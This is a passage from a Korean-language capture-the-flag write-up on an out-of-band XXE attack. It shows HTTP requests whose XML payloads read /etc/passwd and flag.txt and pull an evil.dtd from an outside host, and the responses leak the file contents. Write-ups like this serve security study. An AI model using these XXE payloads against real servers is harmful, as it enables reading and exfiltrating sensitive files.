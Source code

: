 ```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % xxe SYSTEM "http://141.164.52.207/evil.dtd">
%xxe;
]>


// Response
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sun, 31 Jan 2021 12:04:41 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1343
Connection: close
Vary: Cookie

Invalid URI: http://141.164.52.207/root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
(생략)
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
uwsgi:x:100:101:uwsgi:/dev/null:/sbin/nologin
, line 2, column 77 (evil.dtd, line 2)
```
처음 해보는 기법이라 해외 [블로그](https://www.acunetix.com/blog/articles/band-xml-external-entity-oob-xxe/)를 보며 공부를 하고, 진행했는데 좀 신기했습니다. 여튼 oob xxe를 이용해서 `/etc/passwd`를 긁어오니 잘 긁어오는 것을 볼 수 있습니다. 이제 FLAG가 들어있는 파일만 읽으면 되는데 파일을 모르니 한 번 찾아보겠습니다.<br>

```
// Request
POST /customize HTTP/1.1
Host: 207.180.200.166:5000
Content-Length: 168
Content-Type: application/xml
Cookie: session=eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYXNkZmUifQ.YBaKbw.aHQ999GYFVmDPqp_8r4y-rxraOw
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % file SYSTEM "file:///flag.txt">
<!ENTITY % xxe SYSTEM "http://141.164.52.207/evil.dtd">
%xxe;
]>


// Response
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sun, 31 Jan 2021 12:17:57 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 102
Connection: close
Vary: Cookie

Invalid URI: http://141.164.52.207/flag{i7_1s_n0t_s0_bl1nd3721}
, line 2, column 77 (evil.dtd, line 2)
```
그래서 `flag`, `flag.php`, `flag.txt`를 하나 하나 다 확인 해보니 `flag.txt`가 존재했고, FLAG가 읽히는 것을 볼 수 있었습니다.<br>

